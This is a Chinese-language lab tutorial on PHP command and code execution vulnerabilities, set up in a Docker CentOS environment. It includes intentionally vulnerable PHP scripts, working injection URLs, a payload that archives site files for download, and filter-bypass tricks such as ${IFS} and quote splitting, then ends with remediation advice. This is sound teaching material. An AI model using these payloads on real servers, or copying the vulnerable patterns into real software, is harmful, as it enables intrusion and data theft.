




# 测试命令执行漏洞  

操作系统Centos7，安装`apache`、`php`就可以了


# 环境启动方式

* docker-compose build
* docker-compose up -d

# 登陆环境  

ssh root@127.0.0.1 -p 10001
密码root

# 安装Apache, PHP 7.2
```
rpm --import /etc/pki/rpm-gpg/RPM-GPG-KEY*
yum -y install epel-release
yum -y install httpd
rpm -Uvh http://rpms.remirepo.net/enterprise/remi-release-7.rpm
yum -y install yum-utils
yum update
yum-config-manager --enable remi-php70
yum -y install php php-opcache
```

## 配置apache

`vim /etc/httpd/conf/httpd.conf`

```
#ServerName www.example.com:80
ServerName 127.0.0.1:80
```

`httpd -k restart`




**到此为止，初步的环境已经搭建好了**  

## 命令执行和代码执行漏洞  

### 命令执行

应用有时需要调用一些执行系统命令的函数，如PHP中的system、exec、shell_exec、
passthru、popen、proc_popen等，当用户能控制这些函数中的参数时，就可以将恶意系统命令
拼接到正常命令中，从而造成命令执行攻击，这就是命令执行漏洞

[PHP程序执行函数](http://php.net/manual/zh/ref.exec.php)

```
escapeshellarg — 把字符串转码为可以在 shell 命令里使用的参数
escapeshellcmd — shell 元字符转义
exec — 执行一个外部程序
passthru — 执行外部程序并且显示原始输出
proc_close — 关闭由 proc_open 打开的进程并且返回进程退出码
proc_get_status — 获取由 proc_open 函数打开的进程的信息
proc_nice — 修改当前进程的优先级
proc_open — 执行一个命令，并且打开用来输入/输出的文件指针。
proc_terminate — 杀除由 proc_open 打开的进程
shell_exec — 通过 shell 环境执行命令，并且将完整的输出以字符串的方式返回。
system — 执行外部程序，并且显示输出
```

### 利用条件

* 应用调用执行系统命令的函数
* 将用户输入作为系统命令函数的参数拼接到了命令行中
* 没有对用户输入进行过滤或过滤不严

### 漏洞分类  

* 代码层过滤不严
  - 商业应用的一些核心代码封装在二进制文件中，在web应用中通过system函数来调用：system("/bin/program --arg $arg");
* 系统的漏洞造成命令注入
  - bash破壳漏洞(CVE-2014-6271)
* 调用的第三方组件存在代码执行漏洞
  - 如WordPress中用来处理图片的ImageMagick组件
  - JAVA中的命令执行漏洞(struts2/ElasticsearchGroovy等)
  - ThinkPHP命令执行

### 漏洞危害

* 继承Web服务程序的权限去执行系统命令或读写文件
* 反弹shell
* 控制整个网站甚至控制服务器
* 进一步内网渗透
* 等等

### 漏洞可能代码(以system为例)

```
system("$arg");  //直接输入即可
system("/bin/prog $arg"); //直接输入;ls
system("/bin/prog -p $arg");  //和2一样
system("/bin/prog --p=\"$arg\"");  //可以输入";ls;"
system("/bin/prog --p='$arg'");  //可以输入';ls;'

在Linux上，上面的;也可以用|、||代替
  ;前面的执行完执行后面的
  |是管道符，显示后面的执行结果
  ||当前面的执行出错时执行后面的

在Windows上，不能用;可以用&、&&、|、||代替
  &前面的语句为假则直接执行后面的
  &&前面的语句为假则直接出错，后面的也不执行
  |直接执行后面的语句
  ||前面出错执行后面的
```

### 演示  

#### 测试一：

test1.php
```php
<?php $test = $_GET['cmd']; system($test); ?>
```

`http://127.0.0.1:9999/test1.php?cmd=whoami`


`http://127.0.0.1:9999/test1.php?cmd=whoami;ls`


`http://127.0.0.1:9999/test1.php?cmd=whoamip;ls`


可见在Linux中符号`;`是不论如何都会执行所有命令，并输出

`http://127.0.0.1:9999/test1.php?cmd=whoamip|ls`


`http://127.0.0.1:9999/test1.php?cmd=whoami|ls`  


可见`|`管道符的作用就是输出后面的命令的输出，当前面的命令出错效果跟`;`是一样的，执行所有命令但是只输出最后面的命令  

`http://127.0.0.1:9999/test1.php?cmd=whoamia||lsa||pwd`


`http://127.0.0.1:9999/test1.php?cmd=whoamia||ls||pwd`


可见符号`||`是遇到正确执行的命令就会停下来,当前面出错执行后面的    


#### 测试二：

test2.php
```php
<?php
$test = $_GET['cmd'];
system("ping -c 3 " . $test);
?>
```

`http://127.0.0.1:9999/test2.php?cmd=127.0.0.1`



`http://127.0.0.1:9999/test2.php?cmd=qq;pwd`


`http://127.0.0.1:9999/test2.php?cmd=127.0.0.1;pwd`


可见正如我们前面所说，不管其他命令是否成功执行，符号`;`后面的都可以执行

`http://127.0.0.1:9999/test2.php?cmd=127.0.0.1|pwd`


`http://127.0.0.1:9999/test2.php?cmd=127.0.0.q|pwd`


可见`|`管道符是执行所有，但是只是输出最后一个命令，这个方式在可控参数在中间的情况下是不适用的，比如：`system("ping -c 3 " . $test . "lsaa"); `因为这样只会输出最后一个命令，但是最后一个命令是不可控的，不过既然每个命令都会执行，当然可以控制命令的功能，比方说`zip -r zip.zip ./*`然后再下载。详细后面再讨论。

`http://127.0.0.1:9999/test2.php?cmd=127.0.0.q|zip -r zip.zip ./*|pwd`



可见压缩包已经有了，前提是服务器安装了`zip`命令，同时某文件夹有可写权限  

`http://127.0.0.1:9999/test2.php?cmd=127.0.0.1||pwd`


`http://127.0.0.1:9999/test2.php?cmd=127.0.0.q||pwd||ls`


`http://127.0.0.1:9999/test2.php?cmd=127.0.0.q||pwd||zip%20-r%20zip.zip%20./*`


可见符号`||`就是当遇到成功执行的命令会停下来  


#### 测试三：

test3.php
```php
<?php
$test = $_GET['cmd'];
system("ls -al '$test'");
?>
```

`http://127.0.0.1:9999/test3.php?cmd=./`


`http://127.0.0.1:9999/test3.php?cmd=./';whoami;'`


`http://127.0.0.1:9999/test3.php?cmd=qqq';whoami;'qqq`


正如前面所说符号`;`不管其它命令是否执行，都会输出正确执行的命令的信息，当然是在php中，实际linux当中会有错误信息  

```
[root@514bd01cb105 html]# ls -al 'pwd';pwd;' ./'
ls: cannot access pwd: No such file or directory
/var/www/html
-bash:  ./: No such file or directory
```

`http://127.0.0.1:9999/test3.php?cmd=qqq%27|whoami|%27`


`http://127.0.0.1:9999/test3.php?cmd=qqq%27|zip%20-r%20zip.zip%20./*|%27`


偶然发现这样会出现一个临时文件，刷新一下就看不见了，不知道什么原因，后面可以写个循环把他保存下来。  




`http://127.0.0.1:9999/test3.php?cmd=qqq%27|zip%20-r%20zip.zip%20./*|%27pwd`


可见符号`|`管道符号会执行所有命令，但是只会输出最后一个命令的输出  

`http://127.0.0.1:9999/test3.php?cmd=qqq%27||whoami||%27pwd`


`http://127.0.0.1:9999/test3.php?cmd=qqq%27||whoaami||%27pwd`


可见符号`||`当遇到正确的命令的时候就会停止下来  


总结：  `;`、`|`每个命令都会执行，而`||`是遇到正确的命令就会停下来  

### 命令执行基础扩展

#### 执行运算符

> PHP 支持一个执行运算符：反引号（\`\`）。注意这不是单引号！PHP 将尝试将反引号中的内容作为 shell 命令来执行，并将其输出信息返回（即，可以赋给一个变量而不是简单地丢弃到标准输出）。使用反引号运算符“\`”的效果与函数 shell_exec() 相同


test4.php
```php
<?php echo `pwd`;?>
```


效果与函数 shell_exec() 相同，都是以字符串的形式返回一个命令的执行结果，可以保存到变量中  


#### 程序执行函数

```
escapeshellarg — 把字符串转码为可以在 shell 命令里使用的参数
escapeshellcmd — shell 元字符转义
exec — 执行一个外部程序
passthru — 执行外部程序并且显示原始输出
proc_close — 关闭由 proc_open 打开的进程并且返回进程退出码
proc_get_status — 获取由 proc_open 函数打开的进程的信息
proc_nice — 修改当前进程的优先级
proc_open — 执行一个命令，并且打开用来输入/输出的文件指针。
proc_terminate — 杀除由 proc_open 打开的进程
shell_exec — 通过 shell 环境执行命令，并且将完整的输出以字符串的方式返回。
system — 执行外部程序，并且显示输出
```

##### 测试函数-exec  

test5.php
```php
<?php
$test = $_GET['cmd'];
$output = exec($test);
var_dump($output);
?>
```

`http://127.0.0.1:9999/test5.php?cmd=ls`


test6.php
```
<?php
$test = $_GET['cmd'];
exec($test, $output1);
var_dump($output1);
?>
```


##### 测试函数-passthru

> 没有返回值，同 exec() 函数类似， passthru() 函数 也是用来执行外部命令（command）的。 当所执行的 Unix 命令输出二进制数据， 并且需要直接传送到浏览器的时候， 需要用此函数来替代 exec() 或 system() 函数。 常用来执行诸如 pbmplus 之类的可以直接输出图像流的命令。 通过设置 Content-type 为 image/gif， 然后调用 pbmplus 程序输出 gif 文件， 就可以从 PHP 脚本中直接输出图像到浏览器。


test7.php
```php
<?php
$test = $_GET['cmd'];
passthru($test);
?>
```

`http://127.0.0.1:9999/test7.php?cmd=ls`


##### 测试函数-shell_exec

test8.php
```php
<?php
$test = $_GET['cmd'];
$result = shell_exec($test);
var_dump($result);
?>
```


`http://127.0.0.1:9999/test8.php?cmd=ls`


`shell_exec — 通过 shell 环境执行命令，并且将完整的输出以字符串的方式返回。`


##### 测试函数-system

前面测试都是用system


### 命令执行绕过技巧

#### 黑名单绕过  

```
执行ls命令：
a=l;b=s;$a$b
cat hello文件内容：
a=c;b=at;c=he;d=llo;$a$b ${c}${d}
单引号、双引号
c""at flag
c""at fl""ag
c""at fl''ag
反斜线
c\at fl\ag
```

test9.php
```php
<?php
$test = $_GET['cmd'];
$test = str_replace("cat", "", $test);
$test = str_replace("ls", "", $test);
$test = str_replace(" ", "", $test);
$test = str_replace("pwd", "", $test);
$test = str_replace("wget", "", $test);
var_dump($test);
system("ls -al '$test'");
?>
```

`http://127.0.0.1:9999/test9.php?cmd=./%27;a=l;b=s;$a$b;%27`

```bash
[root@514bd01cb105 html]# a=l;b=s;$a$b
phpinfo.php  test1.php  test3.php  test5.php  test7.php  test9.php
test007.php  test2.php  test4.php  test6.php  test8.php  zip.zip
```

`http://127.0.0.1:9999/test9.php?cmd=./%27;a=c;b=at;c=test9.php;$a$b${IFS}$c;%27`


`http://10.101.177.100:9999/test9.php?cmd=./%27;c''at${IFS}test9.php;%27`


`http://10.101.177.100:9999/test9.php?cmd=./%27;c""at${IFS}test9.php;%27`


`http://10.101.177.100:9999/test9.php?cmd=./%27;c\at${IFS}test9.php;%27`


#### 空格绕过

其实上面已经用到`${IFS}`演示绕过了  

```
绕过空格
${IFS}、$IFS、$IFS$9(貌似1-9都可以)
或者在读取文件的时候利用重定向符
<
```

test9.php
```php
<?php
$test = $_GET['cmd'];
$test = str_replace("cat", "", $test);
$test = str_replace("ls", "", $test);
$test = str_replace(" ", "", $test);
$test = str_replace("pwd", "", $test);
$test = str_replace("wget", "", $test);
var_dump($test);
system("ls -al '$test'");
?>
```

`http://127.0.0.1:9999/test9.php?cmd=./';a=c;b=at;c=test9.php;$a$b<$c;'`


`http://10.101.177.100:9999/test9.php?cmd=./%27;a=c;b=at;c=test9.php;$a$b$IFS$c;%27`


`http://10.101.177.100:9999/test9.php?cmd=./%27;a=c;b=at;c=test9.php;$a$b$IFS$4$c;%27`


### 代码执行

> 当应用在调用一些能将字符转化为代码的函数(如PHP中的eval)时，
没有考虑用户是否能控制这个字符串，这就会造成代码执行漏洞。

#### 相关函数

> PHP：eval assert

#### 漏洞危害

```
执行代码
让网站写shell
甚至控制服务器
```

#### 漏洞分类(也是利用点)

```
执行代码的函数：eval、assert
callback函数：preg_replace + /e模式
反序列化：unserialize()(反序列化函数)
```

test10.php
```php
<?php eval($_GET['code']); ?>
```

`http://10.101.177.100:9999/test10.php?code=phpinfo();`


`http://10.101.177.100:9999/test10.php?code=passthru("whoami");phpinfo();`


`所有的语句必须以分号结尾。比如 'echo "Hi!"' 会导致一个 parse error，而 'echo "Hi!";' 则会正常运行。 `


test11.php
```php
<?php
$code = $_GET['code'];
eval("\$res = $code;");
?>
```

`http://10.101.177.100:9999/test11.php?code=passthru(%27pwd%27)`


test12.php
```php
<?php
$code = $_GET['code'];
eval("\$res = strtolower('$code');");
?>
```

`http://10.101.177.100:9999/test12.php?code=%27);passthru(%27pwd%27);//`


由于`strtolower`函数里面有单引号和括号所以要闭合掉，后面的可以闭合也可以直接注释`//`

test13.php
```php
<?php
$code = $_GET['code'];
eval("\$res = strtolower(\"$code\");");
?>
```

`http://10.101.177.100:9999/test12.php?code=");phpinfo();//`


`http://10.101.177.100:9999/test13.php?code=${phpinfo()}`


双引号内可以执行可变变量,`"${phpinfo()}";`或者`strtolower("${phpinfo()}");`可以直接执行`phpinfo()`  

`http://10.101.177.100:9999/test13.php?code=${passthru('pwd')}`


[pre_replace正则漏洞](https://www.cdxy.me/?p=756)

[pre_replace漏洞2](https://blog.csdn.net/ww122081351/article/details/17579851)

由于这里的php版本过高，这个函数的漏洞已经修复，详情查看上面链接   


----------------------

## 漏洞修复

* 尽量少用执行命令的函数或者直接禁用
* 参数值尽量使用引号包括
* 在使用动态函数之前，确保使用的函数是指定的函数之一
* 在进入执行命令的函数/方法之前，对参数进行过滤，对敏感字符进行转义

test007.php
```php
<?php
$test = $_GET['cmd'];
$test = escapeshellcmd($test);
var_dump($test);
system("ls -al '$test'");
?>
```

`http://127.0.0.1:9999/test007.php?cmd=qqq%27;;whoaami||%27pwd`


可见特殊符号已经被转义了，网上有一些bypass

[escapeshellcmd()-bypass](http://www.securiteam.com/unixfocus/5EP0120OAI.html)

根据bypass介绍，貌似`()`也会被转义吧。


[命令执行和绕过的技巧](https://www.anquanke.com/post/id/84920)


## 漏洞防御

```
使用json保存数组，当读取时就不需要使用eval了
对于必须使用eval的地方，一定严格处理用户数据
字符串使用单引号包括可控代码，插入前使用addslashes转义
放弃使用preg_replace的e修饰符，使用preg_replace_callback()替换
若必须使用preg_replace的e修饰符，则必用单引号包裹正则匹配出的对象
```
